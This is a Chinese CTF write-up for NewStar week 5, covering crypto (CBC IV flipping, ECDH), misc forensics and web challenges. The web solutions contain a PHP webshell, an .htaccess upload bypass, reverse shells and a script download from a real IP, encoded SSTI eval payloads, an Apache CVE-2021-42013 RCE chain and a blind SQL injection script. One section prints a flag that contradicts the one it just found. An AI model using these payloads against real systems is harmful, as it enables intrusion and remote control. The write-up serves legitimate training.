




# Writeup - NewStar - Week 5

## CRYPTO

### flip-flop

题目中的关键代码如下

```python
# 生成 authcode
auth_pt = b'NewStarCTFer____'
user_key = os.urandom(16)
cipher = AES.new(auth_major_key, AES.MODE_CBC, user_key)
code = cipher.encrypt(auth_pt)
print(f'here is your authcode: {user_key.hex() + code.hex()}')

# 解码 authcode
user_key = bytes.fromhex(authcode)[:16]
code = bytes.fromhex(authcode)[16:]
cipher = AES.new(auth_major_key, AES.MODE_CBC, user_key)
auth_pt = cipher.decrypt(code)
if auth_pt == 'AdminAdmin______':
    print(FLAG)
```

我们要使解码后的 `auth_pt` 为 `AdminAdmin______`.

我们已知密文 `cipher = code`, 初始向量 `iv = user_key` 和明文 `plain = b'NewStarCTFer____'`. 可以考虑字节翻转攻击。

首先我们回顾一下 AES-128-CBC 加密流程：



相应的解密流程为：



我们发现，可以通过仅改变上一组的 Ciphertext 的值来改变 Plaintext 相应位置的值，第一组 Plaintext 则可以通过改变 IV 来改变。如下图：



Plaintext 每一位的运算法则为：

```python
cipher[i] ^ key[i] = plain[i]
```

其中 `key[i]` 是固定不变但未知的，根据异或的运算法则，我们可以得到：

```python
key[i] = cipher_ori[i] ^ plain_ori[i]
cipher_new[i] = plain_new[i] ^ key[i] = plain_new[i] ^ cipher_ori[i] ^ plain_ori[i]
```

题目中的加密解密数据刚好为 16 个字节，即一组，所以只需要改变 IV 即可。

由此可以计算出新的 `authcode`：

```python
# https://www.jianshu.com/p/476b595e9594
import os
from Crypto.Cipher import AES
auth_major_key = os.urandom(16)

# nc 获取一个 authcode
authcode = "8e287f0d9daf5ade6e7663c51274b150ae6eb996895ab44bf915a884b19933c4"
iv = bytes.fromhex(authcode)[:16]
ciphertext = bytes.fromhex(authcode)[16:]
plain = b'NewStarCTFer____'
expected_plain = b"AdminAdmin______"
for i in range(16):
    iv = iv[:i] + bytes([iv[i] ^ plain[i] ^ expected_plain[i]]) + iv[i+1:]

hacked_authcode = iv.hex() + ciphertext.hex()
print(hacked_authcode)
```

得到解密可以生成 `b"AdminAdmin______"` 的 `authcode`：

```plain
81296537878f4cf0535e59e81274b150ae6eb996895ab44bf915a884b19933c4
```

得到 flag

```plain
flag{filp_the_word!!!!!!!!}
```

#### References

- <https://www.jianshu.com/p/476b595e9594>

### An der schönen Elliptische Kurve

题目给了一个 `.sage` 文件，内部语法格式为 `python`，需要安装 [sagemath](https://mirrors.aliyun.com/sagemath/win/index.html). 可以参照[此篇文章](https://zhuanlan.zhihu.com/p/297736314)配置 sagemath 在 Jupyter 中的运行环境。

根据标题和题目所给文件可以分析出，该题考察椭圆曲线的笛福赫尔曼算法的变种ECDH.

ECDH 需要解决的问题大致是：Alice 和 Bob 想要安全通信，中间人可能会窃听消息，但是没办法解密消息。

在此之前需要了解椭圆曲线。

椭圆曲线是指由韦尔斯特拉（Weierastrass）方程 $$ {\rm E}: y^2 + ax y +by = x^3 + cx^2 + dx + e $$ 所确定的平面曲线。

在密码学中，常采用下列形式的椭圆曲线：
$$ {\rm E}: y^2 = x^3 + ax + b $$
并要求 $$ 4a^3 + 27b^2 \not = 0 $$

有限域 ${\rm GF}(p)$ 上的椭圆曲线表示式为
$$ y^2 \equiv x^3 + ax + b \pmod{p} $$
且满足 $$ 4a^3 + 27b^2 \pmod{p} $$

ECDH 中，$G$ 表示在同一个有限域上选择的用于生成子群的一个基点。ECDH 算法的流程大致如下：

1. Alice 和 Bob 生成各自的私钥 $d_A$ 和 $d_B$，并计算出各自的公钥
   $$
   H_A = d_A G \\
   H_B = d_B G
   $$
2. Alice 和 Bob 通过不安全信道（如互联网）交换各自的公钥。
3. Alice 计算 $S = d_A H_B$，Bob 计算 $S = d_B H_A$. 显然他们计算得到的 $S$ 是一样的，这是因为
   $$ S = d_A H_B = d_A d_B G = d_B d_A G = d_B H_A $$

注意，在上述过程中，Alice 只持有自己的私钥 $d_A$ 并保密，Bob 只持有自己的私钥 $d_B$ 并保密，而 $G$ 和公钥信息都是可以公开（或是说被窃听）的。

回到本题，阅读代码，根据题目所给的数字，我们只需要求出 `shared` 再计算出 `key` 即可完成 AES 的解密。代码如下：

```python
a = 14489
b = 10289
p = 7486573182795736771889604737751889118967735916352298289975055815020934891723453392369540853603360270847848895677903334441530052977221688450741083448029661

F = GF(p)
E = EllipticCurve(F, [a, b])
# G = E.random_point()
my_private_key = 2549545681219766023689977461986014915946503806253877534915175093306317852773
sender_public_key = E(
    1285788649714386836892440333012889444698233333809489364474616947934542770724999997145538088456652601147045234490019282952264340541239682982255115303711207,
    1081635450946385063319483423983665253792071829707039194609541132041775615770167048603029155228167113450196436786905820356216200242445665942628721193713459, 1)
shared = my_private_key*sender_public_key
key = md5(str(int(shared.xy()[0])).encode()).digest()

print(key)
```

输出 `key` 的值为

```python
b"\xbe\xf7\x1d\x06\xa8\xd1\xeb\xa2\xfa7\xf3\x87q'H."
```

于是可解密得到 flag：

```python
from Crypto.Cipher import AES
from hashlib import md5

ciphretext = bytes.fromhex("2f65ff4a97e0e05c06eab06b58ea38a3d5b6d2a65ea4907bc46493b30081a211d7cffc872a23dbd565ef307f9492bb23")
iv = bytes.fromhex("d151c04c645c3e2a8d3f1ae44589ef20")
key = b"\xbe\xf7\x1d\x06\xa8\xd1\xeb\xa2\xfa7\xf3\x87q'H."

cipher = AES.new(key, AES.MODE_CBC, iv)
flag = cipher.decrypt(ciphretext).decode()
print(flag)
```

输出即为 flag：

```plain
flag{ell1ptic_curv3_i5_be4ut1ful_right#4DF17ABE}
```

#### References

- <https://zhuanlan.zhihu.com/p/66794410>
- 谷利则, 郑世慧, 杨义先. 现代密码学教程（第2版）[M]. 北京：北京邮电大学出版社, 2015:202-205.

## MISC

### 最后的流量分析

使用 Wireshark 打开 `sqli.pcap` 文件，筛选语句为 `http.response.code==200`. 查看第一条记录的 `Line-based text data`，选中记录，然后按住下箭头键用人类强大的眼睛疯狂扫描。

很快，我们就发现有什么东西闪（变化）了一下，定位到那条记录，其 payload 为

```sql
if((substr((select(text)from(wfy_comments)where(id=100)),1,1)="f"),100,0)
```

输出为

```plain
好耶！你有这条来自f1ag_is_here条留言
```

所以我们修改筛选语句为 `data-text-lines contains "f1ag_is_here"`，然后手录出 flag 吧！

```plain
flag{c8cbb04a-8663-4ee2-9449-349f1ee83e11}
```

### 奇怪的PDF

拿到文件，打开压缩包，发现文件名为 `strange2.pdf.lnk`，观察其文件大小不像是个快捷方式，于是尝试去掉 `.lnk` 后缀名后解压，但实践表明这并不是一个 PDF 文件。

所以直接放进 010 Editor 查看 Hex.

发现文件开始部分存在一些命令语句（为了方便查看我用记事本打开了）：


其后是一长串 Printable Text，猜测是Base64编码：

```plain
TVNDRgDAAADWPw0AAAAAAEwA...
```

复制开头的一部分解码试试：

```plain
MSCF\x00À\x00\x00Ö?\r\x00\x00...
```

搜索 `MSCF`，得知是 CAB 文件的文件头。

将全部 Base64 字符串复制进一个 TXT 文件后，使用 Python 脚本进行解码

```python
from base64 import b64decode
str = open("./strangePDF.txt", "r").read()
decoded = b64decode(str)
open("./stangePDF.cab", "wb").write(decoded)
```

解码后打开 `stangePDF.cab`，报错。

重新省视文件开始部分的命令语句，发现字段

```bash
findstr.exe "TVNDRgAAAA"
```

对 Base64 字符串全局搜索 `TVNDRgAAAA`，仅发现一处匹配，从 `TVNDRgAAAA`开始截取 Base64 编码字符串（忽略前面的一长串）

```plain
TVNDRgAAAAAqQA8AAAAAACwAAAAAAAAAAwEBAAMAAABRDQAAhAAAACIAAQDRAAAAAAAAAAAATVUudSAAOXNPWE42THRmMGFmZTcuanMAHwAAANEAAAAAAE1VTHMgAGZsYWcudHh0ANSLEADwAAAAAABNVZZ1IABzdHJhbmdlMi5wZGYA5hY3PDd7AIBDS5X7A5RlTdMuipa7bNu2bdu2bXbZtrps2122baPLtnnqfT/+/...
```

对筛选后的 Base64 字符串使用同样的 Python 脚本解码，再次打开 `strangePDF.cab`，成功打开，发现三个文件

```plain
9sOXN6Ltf0afe7.js
flag.txt
strange2.pdf
```

打开 `flag.txt` 得到 flag

```plain
flag{It_1s_a_fak3_but_r3al_PDF}
```

打开 `strange2.pdf`，让我们感谢出题人赠送的《欺骗的艺术》！

### Yesec no drumsticks 5

压缩包内是一个 git，`git -log` 发现版本挺多，于是使用 `git reset --hard` 逐步回退版本，查看 `flag.txt` 内容，只找到一个假的 flag. 故此路不通。

重新解压压缩包，更换思路。

代码仓库、暂存区和工作区内已修改的文件均可直接被查看到。

Git 中有一个用于藏匿代码的指令 `stash`.

查看缓存区

```bash
git stash list
```

得到

```plain
flag.txt
```

尝试撤销

恢复缓存区

```bash
git stash pop
```

再次查看 `flag.txt` 得到 flag

```plain
flag{Yesec#1s#c@ibi}
```

## WEB

### Give me your photo PLZ

我们按照网页的要求上传一张图片，发现图片被上传到网站的 `/upload` 目录中。

猜测是利用文件上传功能上传木马。我们随便传个 cpp 文件上去发现是上传成功的，但是随便上传一个 php 上去会返回 `上传木马可不是好习惯～～～`.

先构造一个木马文件，再想办法绕过：

```php
# webshell.php
<?php
highlight_file(__FILE__);
echo system($_POST['warma']);
```

利用 Burp 或 Fiddler 改包，修改 `Content-Type` 为 `image/jpeg` 后放行，但还是不成功。但是仅修改 `filename` 却可以，得知过滤机制为检测文件后缀名。


修改文件后缀为 `pht` `phtml` `pHp` 等都无法绕过，使用 Hex 再 `.php` 后面从插入 `%0A` 字符后也不管用。



尝试利用解析绕过。

构造文件 `.htaccess`. 这将会使得 Apache 将 JPG 文件以 PHP 文件的方式解析：

```xml
<!-- .htaccess -->
<ifModule mime_module>
AddHandler php5-script .jpg
</ifModule>
```

上传成功！

我们不妨再上传一个 `bash.png` 内容如下：

```bash
bash -i &> /dev/tcp/47.97.152.130/54188 0>&1
```

然后在主控机上监听端口 `nc -lvp 54188`，在 WebShell 执行该文件拿到 shell.

再访问 `/upload/webshell.jpg`, 发现已经显示为 php.


主控机上已拿到 shell，但根目录下未发现 flag，于是执行：

```shell
www-data@out:/$ export -p
```

得到其中一条为：

```shell
declare -x FLAG="flag{157d77e1-0d53-42db-a9d6-2b98e4cacec0}"
```

获得 flag.

```plain
flag{4a7e06cd-29ab-491c-a1ff-478427e3b92a}
```

### BabySSTI_Three

使用 pyload

```python
{{''['__class__']['__base__']['__subclasses__']()[166]['__init__']['__globals__']['__builtins__']['eval']('__import__('os').listdir('/')')}}
```

对字符串进行 ASCII 编码绕过，有：

```python
{{''['\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f']['\x5f\x5f\x62\x61\x73\x65\x5f\x5f']['\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f']()[166]['\x5f\x5f\x69\x6e\x69\x74\x5f\x5f']['\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f']['\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f']['\x65\x76\x61\x6c']('\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x6c\x69\x73\x74\x64\x69\x72\x28\x27\x2f\x27\x29')}}
```

网页端得到：

```python
['bin', 'boot', 'dev', 'etc', 'home', 'lib', 'lib64', 'media', 'mnt', 'opt', 'proc', 'root', 'run', 'sbin', 'srv', 'sys', 'tmp', 'usr', 'var', 'flag_in_h3r3_52daad', '.dockerenv', 'app', 'start.sh']
```

得到 flag 的文件路径为 `/flag_in_h3r3_52daad`，再构造 payload

```python
{{''['__class__']['__base__']['__subclasses__']()[166]['__init__']['__globals__']['__builtins__']['eval']('open(\'/flag_in_h3r3_52daad\').read()')}}
```

对字符串进行 ASCII 编码绕过，有：

```python
{{''['\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f']['\x5f\x5f\x62\x61\x73\x65\x5f\x5f']['\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f']()[166]['\x5f\x5f\x69\x6e\x69\x74\x5f\x5f']['\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f']['\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f']['\x65\x76\x61\x6c']('\x6f\x70\x65\x6e\x28\x27\x2e\x2e\x2f\x66\x6c\x61\x67\x5f\x69\x6e\x5f\x68\x33\x72\x33\x5f\x35\x32\x64\x61\x61\x64\x27\x29\x2e\x72\x65\x61\x64\x28\x29')}}
```

网页端得到 flag：

```plain
flag{01089939-9f12-4c7a-a50d-76f626381e39}
```

### So Baby RCE Again

访问靶机网址，WebShell 过滤了关键字`bash`和`curl`，可使用两点号` `` `绕过。

构造 Payload `bash -i &> /dev/tcp/47.97.152.130/54188 0>&1` 作为 `cmd` 参数发现并不行，没找到原因。

尝试在公网服务器上挂载脚本，并在靶机上 `curl`

```bash
curl -o shell.sh 47.97.152.130:54180
```

即传参 `?cmd=cu``rl%20-o%20shell.sh%2047.97.152.130:54180`

在公网服务器上使用 nc 监听

```shell
[root@Cnkid03~]$ nc -lvp 54188
```

然后在靶机上

```bash
bash shell.sh
```

即传参 `?cmd=bas``h%20shell.sh`

回到我们的公网服务器，发现已经拿到 shell.

进行常规的查找 flag 操作，易得 flag 存在于根目录中，进行 cat 操作

```shell
www-data@out:/$ cat ffll444aaggg
cat: ffll444aaggg: Permission denied
```

是的，shell 那么容易就拿到，出题人不会就此善罢甘休的。

考虑提权。查找具有 SUID 的文件：

```shell
www-data@out:/$ find / -perm -u=s -type f 2>/dev/null
/bin/date
/bin/mount
/bin/su
/bin/umount
```

`date` 具有 `-file` 选项，考虑劫持 `date`

```shell
www-data@out:/$ date -f /ffll444aaggg
date: invalid date 'flag{4a7e06cd-29ab-491c-a1ff-478427e3b92a}' 
```

获得 flag.

```plain
flag{4a7e06cd-29ab-491c-a1ff-478427e3b92a}
```

### Unsafe Apache

靶机地址为 `node4.buuoj.cn:27256`，访问靶机，内容仅仅是

```html
<html><body><h1>It works!</h1></body></html>
```

没有什么可以传参或上传的地方。

查看响应标头

```http
Accept-Ranges: bytes
Connection: keep-alive
Date: Fri, 21 Oct 2022 15:12:37 GMT
Etag: "2d-432a5e4a73a80"
Keep-Alive: timeout=4
Last-Modified: Mon, 11 Jun 2007 18:53:14 GMT
Proxy-Connection: keep-alive
Server: Apache/2.4.50 (Unix)
```

发现 Web 服务器为 Apache，版本为 2.4.50（使用 Wappalyzer 可快速得知该信息）。

Apache 2.4.49 和 2.4.50 版本存在路径穿越和远程代码执行漏洞，即可以通过特定手段访问类似 `http(s)://ip:port/dir/../../../etc/passwd` 的地址读取到 Web 服务根目录以外的文件（`dir` 必须存在且可访问）。

#### CVE-2021-41773

Apache 2.4.49 使用的 `ap_normalize_path` 函数解析路径时会对路径进行 URL 解码，然后过滤掉 `../` 等路径穿越符。

但是该函数对路径穿越符的过滤是通过检测解析后的点号后面是否存在 `.`，因此 `%2e.` 会被过滤而 `.%2e` 和 `%2e%2e` 不会（估计作者当时是考虑文件后缀名忽略了 `..` 的情况）

#### CVE-2021-42013

Apache 2.4.50 的修复并不彻底，虽然过滤了 `.%2e` `%2e%2e` 但是…… 二次编码仍然可以绕过。

`2` 的 URLEncode 结果为 `%32`，故我们可以用 `.%%32e` 或者 `%%32e%%32e` 进行路径穿越。

#### 路径穿越测试

访问 `http://node4.buuoj.cn:27256/icons/a.png` 得到图片，可知存在 `icons` 目录。

执行（`.%%32e/` 写多点以确保到达根目录）：

```bash
curl http://node4.buuoj.cn:27256/icons/.%%32e/.%%32e/.%%32e/.%%32e/etc/passwd
```

返回

```plain
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

测试成功！

#### RCE 测试

获取根目录下的 `flag` 文件失败，我们无从知道 flag 放到哪，文件名是什么，是否需要提权等。因此拿到 shell 是万全之策。

访问 `http://node4.buuoj.cn:27256/cgi-bin/printenv` 没有返回 `404`，可知存在 `cgi-bin` 目录，因此可实现远程代码执行获取 shell.

执行：

```bash
curl -v --data "echo;echo 'bash -i &> /dev/tcp/47.97.152.130/54188 0>&1'>> /tmp/shell.sh" http://node4.buuoj.cn:27256/cgi-bin/.%%32e/.%%32e/.%%32e/.%%32e/bin/sh
```

其中 `47.97.152.130` 和 `54188` 分别为主控机 IP 和监听端口。

查看是否注入成功

```bash
curl --data "echo;ls /tmp" http://node4.buuoj.cn:27256/cgi-bin/.%%32e/.%%32e/.%%32e/.%%32e/bin/sh
```

在返回结果中已经存在 `shell.sh`， 故在主控机上 `nc -lvp 54188`，然后执行：

```bash
curl --data "echo;bash /tmp/shell.sh" http://node4.buuoj.cn:27256/cgi-bin/.%%32e/.%%32e/.%%32e/.%%32e/bin/sh
```

拿到 shell.

执行 `ls /` 找到 flag 并 `cat` 得到 flag.

```shell
daemon@out:/$ cat ffffllllaaagggg_cc084c485d
flag{c5b66e3b-404d-49eb-a970-0c0c7fa0f2db}
```

事实上将 `--data` 设定为 `echo;ls /` 进行 RCE 即可获得到 flag 的位置和文件名，然后使用路径穿越或 RCE 均可读到 flag 的内容。

#### References

- <https://blog.csdn.net/qq_60905276/article/details/125163219>
- <https://httpd.apache.org/security/vulnerabilities_24.html>
- <https://github.com/Threekiii/Vulhub-Reproduce/blob/master/Apache%20HTTP%20Server%202.4.49%20%E8%B7%AF%E5%BE%84%E7%A9%BF%E8%B6%8A%E6%BC%8F%E6%B4%9E%20CVE-2021-41773.md>

### Find round

基础注入测试一下，发现其过滤掉了空格和井号。其中空格可以使用 `%0C` 绕过。

注入一些 SQL 发现其没有回显。

解决这种情况有两种方式，一种是 DNSlog，另一种是 sleep 盲注。但是经过测试本题无法使用 SQL 语句中的 `load_file`，故无法使用 DNSlog.

根据 IF 语句的语法 `if(表达式, 若真, 若假)` 使用 payload

```sql
if(ascii(substr(database(),1,1))>0,sleep(5),1)
```

发现网页加载时间明显变慢。利用这一特性，写 Python 脚本，定义一些工具函数：

```python
# Copyright (c) 2022 Jevon Wang
from time import sleep
import requests

# 字母表
ALPHABET = "?!-_/\{} abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
# 靶机地址
URL = "http://a4987151-d67a-4396-b3d4-10fa0937cba5.node4.buuoj.cn:81/comments.php"
# 请求发送间隔
SLEEP_INTERVAL = 0.001
# 几秒内未收到响应视为 if 判真
REQUEST_TTL = 0.8


def test_pass(payload):
    """测试 payload 是否有效
    """
    url = URL
    data = {"name": payload}
    try:
        res = requests.post(url=url, data=data, timeout=REQUEST_TTL).text
    except:
        return True
    return False


def test_int(L, R, payload, log=False, log_result=False):
    """枚举整数直到匹配成功
    
    Args:
        payload (str): 接受一个 Format 位的字符串，以{}代替整数
    """
    for i in range(L, R):
        url = URL
        data = {"name": payload.format(i)}
        try:
            res = requests.post(url=url, data=data, timeout=REQUEST_TTL).text
            if log:
                print(f"Number {i} missed.")
            sleep(SLEEP_INTERVAL)
            continue
        except:
            if log_result:
                print(f"The matched number is {i}!")
            return i
    return None


def test_char(payload, index=-1, log=False, log_result=False):
    """枚举字母表直到匹配成功
    
    Args:
        payload (str): 接受一个 Format 位的字符串，以{}代替字符
    """
    for char in ALPHABET:
        url = URL
        if index == -1:
            data = {"name": payload.format(char)}
        else:
            data = {"name": payload.format(index, char)}
        try:
            res = requests.post(url=url, data=data, timeout=REQUEST_TTL).text
            if log:
                print(f"Charactor '{char}' missed.")
            sleep(SLEEP_INTERVAL)
            continue
        except:
            if char == '?':
                continue
            if log_result:
                print(f"Matched '{char}'!")
            return char
    return None


def loop_str(L, R, payload, log=False, log_result=False):
    """逐字查找字符搜寻字符串
    
    Args:
        payload (str): 接受两个 Format 位的字符串，第一个`{}`代替为整型，第二个`{}`代替为字符
    """
    result = ""
    for i in range(L, R):
        if log:
            print(f"Testing index {i}...")
        char = test_char(payload, index=i, log=log, log_result=False)
        if char != None:
            result += char
            if log:
                print(f"Matched '{char}' at the index {i}!")
                print(f'- Current result: "{result}"')
    if log_result:
        print(f'[Result] "{result}"')
    return result
```

先获取数据库名：

```python
# 获取数据库长度
db_len = test_int(1,10,"if(length(database())={},sleep(5),1)")
print(db_len)
# 获取数据库名
database = loop_str(1, db_len+1, "if((substr(database(),{},1))='{}',sleep(5),1)", log=True, log_result=True)
print(database)
```

得到数据库名为 `wfy`.

再求表个数：

```python
# 求表个数
table_count = test_int(1,10,"if((select(count(table_name))from(information_schema.tables)where(table_schema=database()))={},sleep(5),1)")
```

得到表的个数为 `3`.

获取表名：

```python
table_name = []
for i in range(0, table_count):
    # 查找表i名称的长度
    len = test_int(
        1, 30,
        "if((select(length(table_name))from(information_schema.tables)where(table_schema=database())limit\x0C"+str(i)+",1)={},sleep(1),1)")
    if len==None:
            continue
    # 查找表i的名称
    table_name.append(loop_str(
        1, len+1,
        "if(substr((select(table_name)from(information_schema.tables)where(table_schema=database())limit\x0C"+str(i)+",1),{},1)='{}',sleep(1),1)",
        log_result=True, log=True))
print(table_name)
```

输出结果即为表名：

```python
['wfy_admin', 'wfy_comments', 'wfy_information']
```

猜想 `wfy_comments` 为储存具体数据的表。查找其列名：

```python
column_name = []
column_num = test_int(
    0, 10, "if((select(count(column_name))from(information_schema.columns)where(table_name='wfy_comments'))={},sleep(1),1)")
for i in range(0, column_num):
    # 查找列i名称的长度
    len = test_int(
        1, 30,
        "if((select(length(column_name))from(information_schema.columns)where(table_name='wfy_comments')limit\x0C"+str(i)+",1)={},sleep(1),1)")
    if len == None:
        continue
    # 查找列i的名称
    column_name.append(loop_str(
        1, len+1,
        "if(substr((select(column_name)from(information_schema.columns)where(table_name='wfy_comments')limit\x0C" +
        str(i)+",1),{},1)='{}',sleep(1),1)",
        log_result=True, log=True))
print(column_name)
```

输出结果即为列名：

```python
['id', 'text', 'user', 'name', 'display']
```

猜想 `text` 为储存数据的列。先获取列的字段个数：

```python
num = test_int(0, 200, "if((select(count(text))from(wfy.wfy_comments))={},sleep(1),1)")
print(num)
```

得到字段个数为 `12`.

查找 flag：

```python
flag = []
for i in range(num):
    passed = test_pass("if(substr((select(user)from(wfy.wfy_comments)limit\x0C"+str(i)+",1),1,1)='f',sleep(1),1)")
    if passed:
        len = test_int(0, 100, "if((select(length(user))from(wfy.wfy_comments)limit\x0C"+str(i)+",1)={},sleep(1),1)")
        if len == None:
            continue
        text = loop_str(
            1, len+1, "if(substr((select(user)from(wfy.wfy_comments)limit\x0C"+str(i)+",1),{},1)='{}',sleep(1),1)", log_result=True, log=True)
        print(text)
        flag.append(text)
print(flag)
```

输出结果为

```python
["flag{ju2t_let_me_s1eep_f0r_a_whi1e}"]
```

但是提交的 flag 为

```plain
flag{ju2t_let_me_s1eep_f0r_a_whi1e}
```

由于上述是使用延时盲注，所以脚本判断if是否判真并不稳定，可以通过修改脚本开头的 `REQUEST_TTL` 进行调整。但是耗时长是一个重大问题。
